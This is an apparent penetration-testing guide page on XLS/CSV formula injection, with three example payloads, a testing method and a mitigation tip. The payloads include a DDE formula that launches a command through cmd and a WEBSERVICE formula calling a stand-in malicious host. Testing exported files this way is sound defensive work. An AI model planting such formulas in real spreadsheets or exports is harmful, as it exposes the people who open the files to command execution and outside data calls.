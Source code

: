 ```yaml
---
description: >-
  XLS/CSV Injection, also known as Formula Injection or CSV Injection, occurs
  when a malicious user inputs data into an application that is later exported
  to an XLS or CSV file.
---
```


# XLS/CSV Injection

## Example Tests for XLS/CSV Injection

When performing a penetration test, you can use various payloads to test for XLS/CSV injection vulnerabilities. Below are some example commands and payloads that can be used to test if an application is vulnerable to XLS/CSV injection.

### **Example Payloads for CSV Injection**

1.  **Basic Hyperlink Injection**

    ```plaintext
    =HYPERLINK("https://www.example.com","CLICK ME")
    ```
2.  **Potentially Dangerous Formula**

    ```plaintext
    =cmd|' /C calc'!A0
    ```
3.  **External Data Fetch**

    ```plaintext
    =WEBSERVICE("http://malicious-site.com/data")
    ```

## Testing Methodology

1. **Injecting Payloads**:
   * Identify fields in the application where you can input data that will be exported to XLS or CSV files.
   * Input the example payloads into these fields.
2. **Export and Analysis**:
   * Export the data to an XLS or CSV file from the application.
   * Open the exported file with a text editor to verify that the payloads are correctly injected.
   * Open the file with a spreadsheet program (e.g., Microsoft Excel) to see if the payloads execute as formulas.
3. **Observation and Mitigation**:
   * Observe the behaviour of the application and the spreadsheet program to detect any execution of malicious payloads.
   * Recommend encoding or sanitising the input data to prevent such injections.
